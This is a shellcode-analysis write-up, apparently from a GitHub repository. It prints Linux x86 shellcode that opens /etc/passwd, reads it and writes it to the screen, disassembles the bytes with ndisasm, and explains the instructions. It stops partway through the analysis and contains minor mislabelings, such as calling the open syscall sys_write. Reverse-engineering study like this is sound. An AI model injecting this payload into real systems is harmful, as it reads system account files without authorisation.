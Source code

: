 ## Shellcode analysis case 1

----

#### Shellcode - Reads /etc/passwd
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73
\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f
\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03
\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92
\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd
\x80
```

Binary ninja graph:

![graph](https://raw.githubusercontent.com/x00pwn/lowlevel-shellcode-analysis/master/graph_images/case2-graph.png)

` echo -ne "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -` convert the shellcode to x86 ASM via ndisasm
```
Disassembly-
00000000  31C9              xor ecx,ecx
00000002  F7E1              mul ecx
00000004  B005              mov al,0x5
00000006  51                push ecx
00000007  6873737764        push dword 0x64777373
0000000C  68632F7061        push dword 0x61702f63
00000011  682F2F6574        push dword 0x74652f2f
00000016  89E3              mov ebx,esp
00000018  CD80              int 0x80
0000001A  93                xchg eax,ebx
0000001B  91                xchg eax,ecx
0000001C  B003              mov al,0x3
0000001E  31D2              xor edx,edx
00000020  66BAFF0F          mov dx,0xfff
00000024  42                inc edx
00000025  CD80              int 0x80
00000027  92                xchg eax,edx
00000028  31C0              xor eax,eax
0000002A  B004              mov al,0x4
0000002C  B301              mov bl,0x1
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  CD80              int 0x80
```

Analysis:

As usual, the shellcode starts by clearing out the ecx register, then it moves the linux `sys_write` syscall into the al register. Then the shellcode pushes the string `//etc/passwd` onto the stack in little endian format and split up.

**Clearing the registers** Using XOR ECX, ECX we can have the ECX register cleared by turning it to 0x00000000. Then using mul ecx to `EDX:EAX = EAX * ECX` which will then clear EAX and EDX
```assembly
xor    ecx,ecx        ; clear out ecx as prep
mul    ecx            ;
```
**Open the file** Moving 0x05 into al is using the sys_open linux syscall, sys_open requires 3 arguments, path in EBX, flags on ECX, and MODE on EDX
```assembly
mov    al,0x5         ; linux syscall (sys_open, 0x05)
push   ecx
push   0x64777373     ; push 'dwss' to the stack
push   0x61702f63     ; push 'ap/c' to the stack
push   0x74652f2f     ; push 'te//' to the stack
mov    ebx,esp        ; putting the address and "location" of the file into ebx
int    0x80           ; sys interupt
```

```assembly
xchg eax,ebx
xchg eax,ecx
mov al,0x3
xor edx,edx
mov dx,0xfff
inc edx
int 0x80
```
